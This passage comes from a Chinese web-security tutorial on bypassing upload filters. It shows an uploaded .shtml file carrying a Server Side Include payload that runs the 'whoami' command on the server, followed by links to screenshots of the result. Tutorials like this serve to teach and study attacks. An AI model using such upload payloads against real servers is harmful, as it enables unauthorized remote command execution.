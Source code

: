 这里我们是无法上传正常的 PHP，所以就上传个构造好的 shtml 文件[![](assets/1704850598-05e2cd70fb3b2b8e024eebf3065eafb3.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/SmLqa6VkfhMflauz.png)

```plain
<!--#exec cmd="whoami" -->
```

上传后，访问  
[![](assets/1704850598-369826b6b6fd9a1c793a5498c312d239.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/MuVH29LcolYYpW7a.png)  
[![](assets/1704850598-6380513f01541bd3ef09cf988ab3e8f9.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/UQWLqvW8bk48OtJX.png)
